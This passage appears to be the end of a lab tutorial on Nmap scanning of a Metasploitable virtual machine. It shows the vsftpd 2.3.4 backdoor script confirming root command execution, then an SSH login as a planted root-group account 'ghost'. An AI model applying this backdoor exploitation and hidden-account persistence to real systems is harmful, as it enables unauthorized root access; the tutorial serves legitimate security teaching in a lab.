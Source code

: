 ```python
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://osvdb.org/73573
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 11.34 seconds
```

Since there is typically no output for a successful `useradd` execution, we can assume it worked and try to login remotely. 
```bash
ssh ghost@192.168.56.4
```
```bash
ghost@192.168.56.4s password: # according to our arg file, password = 'boo'
```
```
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Could not chdir to home directory /home/ghost: No such file or directory
ghost@metasploitable:/$ 
```
And we're in! Running the `id` shell command as before now tells us we have root-level access as `ghost`. Spooky!
```
ghost@metasploitable:/$ id
uid=1003(ghost) gid=0(root) groups=0(root)
```

### References
* [Nmap Reference Guide: Host Discovery](https://nmap.org/book/man-host-discovery.html)
* [Nmap Reference Guide: OS Detection ](https://nmap.org/book/man-os-detection.html)
* [Daniel Miessler: Nmap - Use the --top-ports Option for Both TCP and UDP Simultaneously](https://danielmiessler.com/blog/nmap-use-the-top-ports-option-for-both-tcp-and-udp-simultaneously/)
* [Digital Ocean: How To Test your Firewall Configuration with Nmap and Tcpdump](https://www.digitalocean.com/community/tutorials/how-to-test-your-firewall-configuration-with-nmap-and-tcpdump)
* [HackerTarget: Nmap Cheat Sheet](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/)
* [Nmap Reference Guide: Nmap Scripting Engine](https://nmap.org/book/nse-usage.html#nse-script-types)
* [NSE Script: ftp-vsftpd-backdoor](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)
